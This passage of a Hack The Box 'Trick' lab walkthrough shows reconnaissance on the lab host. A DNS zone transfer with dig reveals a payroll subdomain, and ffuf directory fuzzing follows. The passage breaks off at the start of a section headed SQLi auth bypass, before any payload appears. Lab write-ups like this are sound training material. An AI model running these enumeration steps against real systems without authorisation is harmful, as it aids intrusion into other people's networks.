 
### Zone Transfer
- To find out more subdomains
	```
	┌──(root💀kali)-[~/htb/trick]
	└─# dig AXFR -p 53 @10.10.11.166 trick.htb
	
	; <<>> DiG 9.18.0-2-Debian <<>> AXFR -p 53 @10.10.11.166 trick.htb
	; (1 server found)
	;; global options: +cmd
	trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
	trick.htb.		604800	IN	NS	trick.htb.
	trick.htb.		604800	IN	A	127.0.0.1
	trick.htb.		604800	IN	AAAA	::1
	preprod-payroll.trick.htb. 604800 IN	CNAME	trick.htb.
	trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
	;; Query time: 48 msec
	;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
	;; WHEN: Sat Jul 23 01:53:52 +08 2022
	;; XFR size: 6 records (messages 1, bytes 231)
	```
	- `preprod-payroll.trick.htb`
	- Add it to `/etc/hosts`

## TCP/80 (HTTP)
### FFUF
```
301      GET        7l       12w      185c http://10.10.11.166/assets => http://10.10.11.166/assets/
301      GET        7l       12w      185c http://10.10.11.166/css => http://10.10.11.166/css/
200      GET       83l      475w     5480c http://10.10.11.166/index.html
301      GET        7l       12w      185c http://10.10.11.166/js => http://10.10.11.166/js/
```

# Initial Foothold

## SQLi Auth Bypass 
1. Visited fuzzed directories (`http://10.10.11.166/FUZZ`), could not find any relevant information
2. FUZZ `preprod-payroll.trick.htb`
3. Visit `preprod-payroll.trick.htb`
	```
	┌──(root💀kali)-[~/htb/trick]
	└─# ffuf -u http://preprod-payroll.trick.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt 
	
	        /'___\  /'___\           /'___\       
	       /\ \__/ /\ \__/  __  __  /\ \__/       
	       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
	        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
	         \ \_\   \ \_\  \ \____/  \ \_\       
	          \/_/    \/_/   \/___/    \/_/       
	